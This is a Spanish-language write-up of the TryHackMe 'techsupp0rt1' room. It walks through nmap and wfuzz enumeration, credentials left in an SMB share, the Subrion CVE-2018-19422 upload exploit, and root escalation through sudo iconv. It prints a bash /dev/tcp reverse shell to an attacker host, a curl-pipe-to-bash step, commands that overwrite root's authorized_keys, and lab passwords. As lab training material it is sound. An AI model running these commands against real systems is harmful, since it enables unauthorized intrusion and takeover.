Esta maquina es de nivel facil, el cual esta comprendido en enumeración,explotación y escalada de privilegios, en la enumeracion nos encontraremos con una `web` y un servicio `smb` donde obtendremos credenciales, luego tendremos que usar una vulnreabilidad del cms para ejecutar comandos, par luego hcaer uso de un binario que el usuario puede ejecutar con privilegios de root 


- Link de la maquina: [techsupp0rt1](https://tryhackme.com/room/techsupp0rt1)
- Created by [Vikaran](https://tryhackme.com/p/Vikaran)

# Metodología
- Enumeración
  - Escaneo de puertos
  - Enumeración del puerto 80
  - Enumeración del puerto 445
  - Cracking con cypherchef
  - Enumeración del cms Subrion
- Explotación
  - Subrion - CVE-2018-19422
- Escalar Privilegios
  - Credenciales del wp-config
  - Binario /usr/bin/iconv

# Walkthrough

## Enumeración

### Escaneo de puertos

Iniciamos con nusetra herramienta preferida a escanear los puerto de la maquina victima

```java
❯ nmap -p- --open --min-rate 1000 -vvv [IP] -Pn -n  -oG allportsScan
```
Para entender un poco mas de los parametros que lanzamos con `nmap` podemos leer un poco lo siguiente:

`-p-`: Esta opción indica a Nmap que escanee todos los puertos en lugar de un rango específico. El guion ("-") significa "todos los puertos". Esto permite escanear todos los puertos desde el puerto 1 hasta el 65535.

`--open`: Esta opción le dice a Nmap que solo muestre los puertos que están abiertos. Los puertos abiertos son aquellos en los que un servicio está escuchando y aceptando conexiones.

`--min-rate 1000`: Esto establece la velocidad mínima de escaneo en 1000 paquetes por segundo. Cuanto mayor sea la velocidad de escaneo, más rápido se completará el escaneo, pero ten en cuenta que un escaneo más rápido puede ser más intrusivo y podría llamar la atención no deseada.

`[IP]`: Esta es la dirección IP del objetivo que se va a escanear. Debes reemplazarla por la dirección IP que deseas escanear.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Puedes usar esto si sabes que el host objetivo no responde a los paquetes de Ping.

`-n`: Esta opción le dice a Nmap que no realice la resolución de nombres DNS. Puedes usarlo si no deseas que Nmap realice búsquedas DNS inversas durante el escaneo.

`-oG allportsScan`: Esta opción le indica a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "allportsScan". Este archivo contendrá información detallada sobre los puertos abiertos y otros detalles del escaneo.

**nmap** nos reporta los tres puerto abiertos, de los cuales vamos a seguir enumerando los servicios y versiones que se ejecutan en estos puertos.

```java
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack
80/tcp  open  http         syn-ack
445/tcp open  microsoft-ds syn-ack  
```

Enumeros los puertos abiertos

```java
❯ nmap -p22,80,445 -sC -sV [IP]-vvv -oN servicesScan
```

`-p22,80,445`: Esta opción especifica los puertos que se van a escanear. En este caso, se están escaneando los puertos 22, 80, 5044 y 5601. Los números de puerto están separados por comas y no se utiliza el rango de puertos.

`-sV`: Esta opción realiza la detección de versiones de servicios. Nmap intentará determinar qué servicios se están ejecutando en los puertos especificados y mostrará información sobre las versiones de esos servicios.

`-sC`: Activa los scripts de secuencia de comandos (scripts de automatización) de Nmap. Esto permite que Nmap ejecute scripts de detección y enumeración de servicios en los puertos especificados.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Si no se puede contactar con el host a través de Ping, Nmap aún intentará escanear los puertos especificados.

`-vvv`: Esto establece el nivel de verbosidad del escaneo en "muy alto". Esto significa que Nmap proporcionará una salida detallada que incluye información adicional sobre el progreso del escaneo.

`[IP]`: Debes reemplazar [IP] con la dirección IP del objetivo que deseas escanear. Este es el host en el que se realizará el escaneo.

`-oN servicesScan`: Esta opción le dice a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "servicesScan". Este archivo contendrá información detallada sobre los servicios y versiones detectadas en los puertos especificados.

Al ejecutar `nmap` con los puertos abiertos, nos reporta lo siguiente:

```java
PORT    STATE SERVICE REASON  VERSION
22/tcp  open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtST3F95eem6k4V02TcUi7/Qtn3WvJGNfqpbE+7EVuN2etoFpihgP5LFK2i/EDbeIAiEPALjtKy3gFMEJ5QDCkglBYt3gUbYv29TQBdx+LZQ8Kjry7W+KCKXhkKJEVnkT5cN6lYZIGAkIAVXacZ/YxWjj+ruSAx07fnNLMkqsMR9VA+8w0L2BsXhzYAwCdWrfRf8CE1UEdJy6WIxRsxIYOk25o9R44KXOWT2F8pP2tFbNcvUMlUY6jGHmXgrIEwDiBHuwd3uG5cVVmxJCCSY6Ygr9Aa12nXmUE5QJE9lisYIPUn9IjbRFb2d2hZE2jQHq3WCGdAls2Bwnn7Rgc7J09
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBClT+wif/EERxNcaeTiny8IrQ5Qn6uEM7QxRlouee7KWHrHXomCB/Bq4gJ95Lx5sRPQJhGOZMLZyQaKPTIaILNQ=
|   256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDolvqv0mvkrpBMhzpvuXHjJlRv/vpYhMabXxhkBxOwz
80/tcp  open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
445/tcp open  ��V�-V  syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 22059/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 25885/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 14091/udp): CLEAN (Timeout)
|   Check 4 (port 17528/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2023-11-06T01:08:43+05:30
|_clock-skew: mean: -1h46m55s, deviation: 3h10m29s, median: 3m03s
| smb2-time: 
|   date: 2023-11-05T19:38:41
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### Puerto 80

Enumerando el puerto `80` nos encontramos ante una web, a la cual haremos un `fuzzing` para enumerar los directorios de la web



Con la herramienta `wfuzz` vamos a enumerar los directorios de la pagina web. Tu puedes usar el que ams te guste

```java
❯ wfuzz -c -f directoryWeb,raw -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://[IP]/FUZZ
```

`-c`: Habilita el modo de colores en la salida.

`-f directoryWeb,raw`: Este parámetro indica a wfuzz que debe generar una lista de directorios válidos en el archivo "directoryWeb" y también mostrar los resultados en formato "raw".

`-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`: Especifica la lista de palabras (diccionario) que wfuzz utilizará para realizar la enumeración. En este caso, se utiliza el archivo "/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt" como diccionario.

`--hc 404`: Establece el código de estado HTTP "404" como el código de estado para excluir de los resultados. Esto significa que wfuzz no mostrará rutas que resulten en una respuesta de "404 Not Found".

`http://[IP]/FUZZ`: Aquí se especifica la URL objetivo donde se realizará el ataque de enumeración. La cadena "FUZZ" actúa como marcador de posición que será reemplazado por las palabras del diccionario durante el escaneo.

`wfuzz` nos reporta dos directorios que son `test` y `wordpress`



No podemos hacer mucho, debido a que no tenemos credenciales y ninguna pista

### Puerto 445

En el puerto `445` enumeramos los recursos compartidos por el `smb`

```java
❯ smbmap -H [IP]
```

`smbmap`: Este es el comando principal de la herramienta smbmap, que se utiliza para enumerar y mapear recursos compartidos en sistemas Windows a través del protocolo SMB.

`-H [IP]`: Especifica la dirección IP del host remoto que se va a escanear. El comando intentará enumerar los recursos compartidos SMB disponibles en esa dirección IP.




Encontramos un directorio en el cual podemos leer, vamos a conectarnos con `smbclient`

```java
❯ smbclient //[IP]/websvr
```
Encotramos un archivo `txt` en el cual podemos ver un hash. 



Con `get` descargamos a nuestra maquina atacante

### Cypherchef

Haciendo uso de [cypherchef](https://gchq.github.io/CyberChef/) podemos desencriptar el hash

```java
❯ cat enter.txt
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```



El hash desencriptado es:  

```java
admin: Scam*******2021
```

### subrion Panel

Probamos en el login del woirdpress pero no inicio sesión, ahora probamos en el panel `http://[IP]/subrion/panel/` y si podemos logearnos



A simple vista podemos verla versión del `CMS` 

## Explotación

Esta versión de `cms` tiene una vulnerabilidad el cual permite subir un archivo malicioso para ejecutar comandos, aqui te dejo un link del exploit de [SubrionCMS-4.2.1](https://github.com/Swammers8/SubrionCMS-4.2.1-File-upload-RCE-auth-/tree/main)



### Subrion - CVE-2018-19422 

Descargado el exploit procedemos a ejecuar con las credenciales que obtuvimos en `cypherchef`

```java
❯ python3 exploit.py -u http://10.10.47.170/subrion/panel -l admin -p Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 
[+] Trying to connect to: http://10.10.47.170/subrion/panel/
[+] Success!
[+] Got CSRF token: pFXlRjidQ6ZXnyBtviFW7AQi9Fu8TGlhmRniZZmT
[+] Trying to log in...
[+] Login Successful!

```
Podemos ejecutar comandos, pero no tenemos una consola interactiva

```java
$ whoami
www-data 
```
Para tener una consola interactiva vamos a enviarnos una shell, a mi en lo personal me gusta hacerlo de la siguiente manera, no me suele fallar.

- Primero creamos un `index.html` en el cual el contenido ira nuestra [revershell](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/)
```java
❯ nano index.html
❯ cat index.html
bash -i >& /dev/tcp/[IP-ATTACKER]/443 0>&1
```
- Segundo, inicaremos un servidor con `python3`

```java
❯ python3 -m http.server 80
```

- Tercero, haremos una petición con curl desde la el exploit que ejecutamos

```
$ curl http://[IP-ATTACKER]| bash
```
Ahora deberia de mandarnos una shell

## Escalada de privilegios

### Ususario - www-data

Ahora si tenemos una shell interactiva, antes de continua debemos de dar un tratamiento a la [tty](https://invertebr4do.github.io/tratamiento-de-tty/)



Enumerando el archivo `/var/www/html/wordpress/wp-config`  vemos que hay credenciales, las cuales podemos usar para logearnos como el usuario `scamsite`
```
-rwxr-xr-x 1 www-data www-data 2992 May 29  2021 /var/www/html/wordpress/wp-config.php                                                                                                     
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
define( 'DB_HOST', 'localhost' );

```

### Usuario - scamsite

Teniendo accesso como usuario `scamsite` podemos ejecutar `sudo -l`

```
scamsite@TechSupport:~$ sudo -l 
```



Vemos que el usuario puede ejecutar el binario `/usr/bin/iconv` como usuario privilegiado

```java
(ALL) NOPASSWD: /usr/bin/iconv
```
Este binario nos permite leer el contenido de los archivos, asi podemos leer la flag del usuario root

```
scamsite@TechSupport:~$ LFILE=/root/root.txt
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```
Pero queremos convertirnos en el usuario root

### Usuario - root

Vamos hvaerlo de la siguiente manera

- Primero, debemos de crearnos unas `key` con `ssh-keygen`



- Segundo leer el contenido del archivo `id_rsa.pub` el cual copiaremos y agregaremos en el `authorized_keys` del usuario root

```java
scamsite@TechSupport:~$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCXby7BeXG/jO97hMEaoaTV2feikGp7g/PzbGN2BgV7jhzPIv2WVjX1VzUO+hHBrUWtimbO6xDEWmUGQO1z/3FOal/UQfGjSKQmZbf6SQmkIDDsKii5J3KX9QbTUkF8/zKpMThy3ZHPF1J6rtKSu/xNIZQ1tdbK8OHzm84JtJhyrbnRVAOiDbBSRF2sVqMGXJDxCnEYzOX/YWJIdWhWiZXy5crmLmqdxLmBgO2prRoI0EOC5MGlDe2IOW3com7qob2lZXgzWUgQB1bKTuyF5o4PVO9UuhuOEg2uiGjiY8fck34IQ0bdsFwpL+F6fsJP/MxyjtlPspzlH63AQ/lrWspFTHijr91jAbwDJYLquODcn/0+MLacuPyscF7K5NUhVgfZ0kiE41Q0NrnGO/HWew0G4WgBdS0n782kAYsDPorRKfjoxK0ytImD2wybLG3dS6BcmPZDAGIvx4vjgIAG4ehzWboQV0+XCxnPtkqvZqTEwQ0Yy3BVtsU2N8UE= b0ysie7e@Elysium'| sudo iconv -f 8859_1 -t 8859_1 -o /root/.ssh/authorized_keys
scamsite@TechSupport:~$ 
```

- Tercero, iniciamos sesion en `ssh` con el usuario root, haciendo uso de nuestra id_rsa



¡VAMOS!

Happy Hacking :)
